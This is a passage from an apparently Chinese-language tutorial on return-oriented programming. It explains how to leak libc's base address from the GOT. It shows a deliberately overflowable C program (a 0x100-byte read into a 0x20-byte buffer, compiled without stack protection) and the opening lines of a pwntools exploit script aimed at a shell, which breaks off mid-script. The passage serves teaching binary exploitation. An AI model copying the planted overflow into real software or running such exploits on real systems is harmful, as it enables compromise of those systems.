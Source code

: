 ![image-20230807212935624](images/ROP_Tricks/image-20230807212935624.png)

由此，我们可以知道加载之后的函数地址储存在`got`表中，那么我们就可以想办法将`got`表中的内容输出出来，然后减去偏移，从而实现泄漏动态链接库的基地址（这里计算基地址的原理是动态链接库的加载也是通过映射文件实现的，一个链接库映射到一段连续的内存空间）。拿到基地址之后我们就可以加上偏移获得所需函数或者gadget。

以下面这个程序为例，目标是获取shell

```c
// gcc test.c -no-pie -fno-stack-protector -g
#include <stdio.h>

int main() {
    char str[0x20];
    puts("Hello, world!");

    read(0, str, 0x100);

    return 0;
}
```

可以得到如下脚本：

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"
# context.terminal = ["konsole", "-e"]
context.arch = "amd64"

p = process("./a.out")

elf = ELF("./a.out")
libc = ELF("./libc-2.31.so")

pop_rdi = 0x00000000004011F3

puts_plt = elf.plt["puts"]
```